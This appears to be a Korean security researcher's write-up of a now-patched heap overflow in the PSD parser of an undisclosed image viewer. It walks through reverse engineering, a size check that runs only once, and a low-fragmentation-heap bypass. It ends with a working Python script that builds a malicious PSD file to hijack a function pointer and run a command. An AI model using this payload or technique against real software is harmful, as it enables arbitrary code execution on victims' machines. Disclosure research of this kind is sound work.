## Intro

>  이미 패치된 취약점이며, 타겟은 비공개입니다.


## Overview

먼저 코드 분석에 들어가기 전, 사전 조사를 진행했습니다.

제가 분석하는 소프트웨어의 종류는 Viewer이고, 확장자에 따라 진입하는 Dynamic Link Library가 달라지는 것을 확인했습니다.

그런데 파싱하는 이미지 확장자가 생각보다 다양해서 한번에 분석하기 애매했습니다.

일단 분석할 확장자를 선택해야 하는데 대중적인 png, jpg 등과 같은 이미지 파일의 경우는 우선 순위에서 제일 마지막에 배치하였습니다.

왜냐하면 유명한 확장자의 경우 인증된 오픈소스를 사용하여 이미지 데이터를 파싱하거나, 다른 분들이 이미 많이 분석했을 가능성이 높기 때문입니다.

저는 PSD(PhotoShop Document) 확장자로 분석을 진행했습니다.


일단 바탕화면에 psd 파일 샘플을 다운받고, Procmon이란 프로그램을 통해 파일 시스템 활동을 모니터링 하였습니다.



지금은 바탕화면에 다운받았던 **original.psd** 파일을 대상으로 ReadFile하는 활동만 필터링하여 본 모습입니다.

그림의 제일 오른쪽 모습에서 파일의 지정된 offset과 크기(Length)만큼 ReadFile이 진행되는 것을 알 수 있는데요. 

해당 부분을 통해 실제로 File data를 Parsing하는 과정을 추적할 수 있게 됩니다.




그리고 여러 줄 중 한 곳을 더블클릭 해보면 다음과 같이 ReadFile을 기준으로 backtrace를 확인할 수 있습니다.

이를 통해 소프트웨어의 상단 프로세스에서 어떤 dll을 사용하고 어디서 ReadFile과 같은 Operation을 호출을 하는지 알 수 있습니다.

이제 PSD 확장자에 대한 사전 조사는 충분히 했으니 본격적인 분석을 진행합니다.


## Analyze

먼저 위의 Procmon 그림을 통해 backtrace를 확인해봤는데요.

ReadFile을 호출할 때 까지 진입하는 dll이 총 3개임을 알 수 있었습니다. 

그럼 각 dll의 주요 역할을 파악하는게 중요한데요. 

17번째 dll -> 16번째 dll -> 15번째 dll -> Readfile이 호출되기 때문에 순서대로

A.dll, B.dll, C.dll 로 칭하겠습니다.






backtrace에 표시되었던 A.dll의 함수 코드입니다.

L_FileInfo 함수에서 특정 크기 만큼 데이터를 ReadFile하는 것을 파악했습니다.

A.dll에서 ReadFile하는 이유는 파일의 크기가 지나치게 작은지 확인하는 기능으로 파악되었습니다.

이후 B.dll로 진입하는 코드로 이어지게 됩니다.  




B.dll 함수 코드 모습입니다.

24만큼 파일 data를 읽는 것을 확인할 수 있습니다.

해당 switch 분기를 통해 파일의 시그니처 값을 비교하여 알맞은 확장자인지 확인하는 코드를 확인할 수 있습니다.

- “SPB8”은 PSD파일의 헤더를 나타냅니다.




이후 각각의 확장자에 알맞은 Dll을 로드하여 C.dll로 진입시킵니다.

위 그림은 SPB8에 해당되는 확장자를 통해 분기하여 PSD 파일의 데이터를 파싱하는 C.dll의 Load 함수로 진입하는 코드입니다.




C.dll의 Load 함수 모습입니다. 

30 size 만큼 ReadFile한 뒤 , PSD 파일 구조에 알맞은 File header 값들을 알맞게 파싱해주는 코드를 확인할 수 있습니다.






Photoshop file의 Structure는 다음과 같습니다.

File Header, Color Mode Data, Image Resources, Layer and mask Information, Image Data의 순서로 구조가 이루어져 있습니다.

File Header Section을 보면 각 Length에 알맞게 뷰어 소프트웨어 또한 파싱하는 모습을 확인할 수 있는데요.




 load 함수에서 다음과 같이 localAlloc 함수를 통해 특정 사이즈를 할당하고 밑에 sub_1004FF0 함수에서 FileData를 복사하는 것을 확인할 수 있습니다.




sub_1004FF0 함수의 모습을 확인해보면 File data에서 2byte 만큼 Read하는 것을 확인할 수 있습니다.

이후 위 localAlloc에서 할당한 힙 주소(a2)에 2byte read한 size만큼 data를 복사하는 것을 확인할 수 있는데요.

여기서 만약 할당 사이즈와 복사하는 2byte size를 조작할 수 있다면 Heap Overflow를 유발시킬 수 있습니다.

마침 복사하는 사이즈와 localAlloc에서 할당하는 사이즈는 저희 파일 데이터였습니다.


그렇다면 이러한 사이즈 값을 검증하는 코드가 존재하는지 확인해봐야 합니다.




A.dll에서 size 검증 코드가 존재했습니다.

localAlloc하는 data size 값은 앞서 말씀드렸던 PSD File Structure의 width 값입니다.

실제로 copy할 size를 불러와서 width값과 비교한뒤 width값(할당될 size)이 더 작다면 예외처리 되는 코드인 것을 알 수 있습니다.


하지만 해당 코드는 **단 한번**의 검증만 한 뒤 다음 코드로 넘어갑니다.

하지만 File data는 한번에 복사되지 않고 section 별로 복사가 진행되는데요.

즉 처음의 data section size만 정상적인 값(width보다 작은)을 주고 다음 size부터 값을 크게준다면?




**heap overflow**가 발생됩니다. 


## Exploit




먼저 가젯을 찾아보다가 다음과 같이 CMD 명령을 실행할 수 있는 가젯을 다른 영역에서 운좋게 찾을 수 있었습니다.

심지어 esi가 들어가는 인자가 overflow 될 때 덮을 수 있는 레지스터이기도 하고, 

ASLR이 안걸려있는 영역이기에 해당 가젯을 통해 공격해보도록 하겠습니다.




전체적인 그림은 다음과 같습니다.

Exploit은 작은 size로 할당 -> heap overflow -> 함수 포인터 덮기 순으로 진행됩니다. 

원래 a1->pfuncC 함수 포인터를 덮어보려고 했으나, 알고보니 스택 영역의 구조체였고

해당 코드 뒤에서 사용하는 vftable이나 덮을 구조체가 거의 존재하지 않았습니다.

그래서 windbg command를 통해 해당 함수에 오기까지 할당되는 힙 주소 목록을 print 해보다가

a1->dword10 객체가 힙 영역인 것을 알 수 있었습니다.

a1->pfuncC 함수를 들어가보면 다른 dll 영역으로 진입하게 됩니다.




해당 dll 영역에 진입해보았습니다.

코드를 분석해보니 다음과 같이 a7(a1->dword10) 구조체의 값을 함수 포인터로 사용하는 모습을 볼 수 있었습니다.

그렇다면 a1->dword10 구조체를 덮을 방법을 찾아보겠습니다.




다음은 windbg로 디버깅해본 모습입니다.

그림과 같이 081a3058이 할당된 a1→word10 객체라는 것을 알 수 있고, 그 앞에 LFH가 활성화된 Hole(0x80)이 0x40만큼 있는 것을 확인할 수 있습니다. (0x80*0x40 = 0x2000)

즉 Heap 할당 size인 width를 변조하여 0x80이 할당될 수 있도록 만든다면 a1→word10 구조체 보다 **낮은 주소**인 LFH Hole 부분으로 할당시킬 수 있습니다.

하지만 LFH가 할당되는 지점은 0x40개 중 Random이고, 소프트웨어 특성 상 Heap Spray는 불가능합니다. 

Heap Spray가 불가능하다면 사실상 LFH 우회 또한 쉽지 않습니다..




**그러나** 그림과 같이 File Data를 한번에 copy하는 것이 아닌 **반복을 통해 나눠서 복사**하는 특징을 확인할 수 있는데요. 

이를 이용해 a1->dword10 객체가 변조될 때 까지 제일 작은 size(0x80)부터 제일 큰 size(0x2000)까지 2byte data size 값을 File에 삽입 시키고, 

payload를 같이 삽입하여 Heap overflow를 **반복하여 유발**시킨다면 LFH를 우회하여 Exploit이 가능할겁니다.

여기서 주의해야할 점은 반복을 예외 처리 되지 않는 조건과 함수 포인터까지 도달하는 조건을 확인하는 것이 중요한데요.

해당 그림에 있는 반복문 영역 코드 안에서는 예외 처리가 될 수 있는 부분은 a1->pfuncC 함수 안에 존재합니다.


```c++
int pfuncC(a1, a2, a3, a4, a5, a6, over) 
{
    if ( !over[2] )
    {
        ...
    }
    if ( over[399] && (a4 & 0x60) != 96 )
    {
        ...
	}

    ...
    switch ( over[1] )
    {
        case 1:
            ...
        case 2:
            ...
        case 3:
            ...
        case 4:
            ...
        case 5:
            ...
        default:
            ...
            if ( over[2] )
                goto LABEL_195;
            ...
            if ( !over[3] )
                goto LABEL_200;	
            ...
            v50 = (int (__stdcall *)(int, _DWORD, _DWORD *, unsigned int, int, int, _DWORD))over[393];
            if ( !v50 )
                return 1;
            if ( (a4 & 0x10) == 0 || (*(_DWORD *)(over[6] + 36) & 0x100) != 0 )
                return v50(a1, over[6], a3, a4, a5, a6, over[394]);
    }
}

```

a1->pfuncC 함수 안의 코드는 너무 긴 관계로 최대한 필요한 코드만 의사 코드로 줄여서 작성해보았습니다.

a1->dword10 의 객체를 쉽게 over(DWORD array[])로 네이밍 했습니다.

최대한 불필요한 if문은 타지않고 default 분기에 있는 v50 함수포인터에 도달하는 것이 가장 중요합니다.

왜냐하면 중간에 한곳이라도 불필요한 함수에 들어가게 된다면 return 값이 1이 되지 않아서 반복을 돌지 못하거나, 

손상된 힙주소로 인해 Exploit 되기 전에 예외 처리 될 수 있기 때문입니다.


```
#1 == over[2] 
#0 == over[399], over[3] 
#esi == over[0]
#ret == over[393]
```

여기서 Exploit 조건은 다음과 같습니다.

over[2]의 경우 0이 아닌 값, over[399]와 over[3]의 값은 0, over[0]에 공격 인자를 넣을 esi 값, over[393]에 call할 ret값을 넣어준다면 공격에 성공할 수 있습니다.


```python
f = open('C:\\Users\\user\\Desktop\\payload', 'wb')
string = b''
a = 0x2000-0x80+0x58
for i in range(a, 0, -0x80):
	string += (i+0x640).to_bytes(2, 'big') #0x640 is len(payload)
f.write(string) #size section
f.write(b'===='*4)

ret = (0xB39BFB).to_bytes(4, 'little')
cmd = b'c\x00a\x00l\x00c\x00'
payload = b''
payload += cmd	#esi a7[0]
payload += b'\x00\x00\x00\x01' #a7[2]
payload += b'\x00\x00\x00\x00' #a7[3]
payload += b'AAAA'*389 #dummy
payload += ret #ret a7[393]
payload += b'AAAA'*5 #dummy
payload += b'\x00\x00\x00\x00' #a7[399]

d = b'AAAA' + b'\x00\x00\x00\x00' #dummy
for i in range(a, 0, -0x80):
	f.write(d*int(i/8) + payload) #data section

f.close()
```

최종적인 payload는 다음과 같습니다.

다음과 같이 size section data값들과, data section data의 대한 payload를 파일로 추출합니다.

이후 PSD 파일을 hex editor를 통해 size section, data section에 payload file 값을 덮어씌운 후 뷰어로 열어볼까요?  




성공적으로 **Exploit** 되었습니다.

